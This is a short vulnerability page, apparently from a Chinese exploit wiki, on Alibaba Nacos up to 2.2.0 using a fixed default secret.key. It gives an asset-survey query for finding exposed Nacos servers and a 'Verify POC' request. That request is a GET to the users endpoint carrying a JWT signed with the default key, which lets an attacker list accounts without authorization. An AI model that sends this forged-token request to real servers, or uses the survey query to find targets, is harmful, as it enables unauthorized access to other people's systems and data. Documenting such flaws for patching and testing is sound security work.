 # Alibaba Nacos secret.key default key Unauthorized access vulnerability

## Vulnerability Description

Alibaba Nacos uses a fixed secret.key default key, causing attackers to construct requests to obtain sensitive information, resulting in unauthorized access vulnerabilities

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Alibaba Nacos <= 2.2.0 </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="NACOS" </span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7-20230328130353821.png)

The cause of the vulnerability is due to the use of a fixed key

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679978948082-1c2e3bc7-a2c2-4d57-b853-53917fe60b41.png)

Verify POC

```javascript
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1679979057091-8b419866-b16b-4bf4-b8a0-45a7b549adc8.png)
